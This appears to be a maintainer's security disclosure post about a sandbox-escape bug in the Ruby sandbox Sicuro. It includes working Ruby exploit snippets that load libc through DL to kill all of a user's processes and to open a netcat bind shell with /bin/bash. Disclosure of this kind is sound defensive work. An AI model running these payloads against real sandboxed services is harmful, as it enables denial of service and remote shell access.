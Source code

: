 ```yaml
---
title: Untrusted Code Execution Bug in Sicuro
tags: sicuro security bug untrusted code execution
layout: post
draft: true
---
```


[Jens Nockert](http://twitter.com/jensnockert) has exposed a rather major security hole in Sicuro.

Under basically any circumstances, Sicuro can be used to execute untrusted code. The demonstrated technique used by Jens was to terminate all processes that can be terminated by the user who the initial `Sicuro#eval` call was made under. I have demonstrated the ability to use it to access a remote shell, but am unsure if it could be used for privilege escalation.

# The main problem

It appears that attempts at making Sicuro more efficient have actually left it wide open to abuse. There was an attempt to make it lazily load trusted components, and that seems to have opened up a bug letting you `require` anything in the stdlib, including DL. DL is used for loading shared objects and calling functions in them.

The following is the relevant part of the code for lazily loading trusted components. You can view it in context in [lib/sicuro/base.rb](https://github.com/duckinator/sicuro/blob/761e955fbbba07638d69bc62159199cdf0716a7d/lib/sicuro/base.rb#L254-256), lines 254 through 256.

    # Without Gem we won't require unresolved gems, therefore we restore the original require.
    # This allows us to lazy-require other trusted components from the same $LOAD_PATH.
    ::Kernel.module_eval { alias require gem_original_require }

Following is a tidied up version of the code that exposed the bug.

    require 'dl'
    require 'dl/import'
    
    module Libc
      extend DL::Importer
      dlload '/lib/libc.so.6'
      extern 'int kill(int, int)'
    end
    
    Libc.kill(0, 9)

Calling `Libc.kill(-1, 9)` will terminate _all processes the user who called `Sicuro.eval` can terminate._

Here is similar code that will allow you to execute arbitrary shell code:

    require 'dl'
    require 'dl/import'
    
    module Libc
       extend DL::Importer
       dlload '/lib/libc.so.6'
       extern 'int system(const char*)'
    end
    
    Libc.system('nc -lp 1337 -e /bin/bash &amp;')

Congratulations, you now can run `netcat $IP 1337` to connect.

There's a video at the bottom, but odds are it's entirely unintelligible, so you can [go directly to the video](/assets/sicuro-untrusted-code-execution-bug.ogv).

It may also be possible to escalate privileges using this.

# The small problem

There's always something hiding, right? That little thing you find when hunting another bug. This one happened to be that `GC`, `Signal`, and `ObjectSpace` were whitelisted. This isn't exactly good.

At the very least, `GC.disable` could make it use too much memory, causing instability, and `Signal.trap` could be used to handle signals used to terminate the process &ndash; and ignore them. I'm not entirely sure what `ObjectSpace` can be used for, but I do not know what it does, so I do not like it being whitelisted. I've also been told `ObjectSpace` is "dangerous." I may look into this later.

`GC`, `Signal`, and `ObjectSpace` will not be whitelisted as of the next release.

# Conclusion

While removing things from the whitelist was trivial, it appears fixing the code execution problem is proving immensely difficult. I am not sure I will be able to do it and retain all current functionality.

I highly recommend that, once the next version is released, everyone upgrade immediately. This is a major security hole, and allows execution of any untrusted code that can be done through a shared library. This includes calls to `system()` and related functions, as mentioned above.

<video style="width: 100%; max-width: 798px;" controls="controls" src="/assets/sicuro-untrusted-code-execution-bug.ogv"></video>
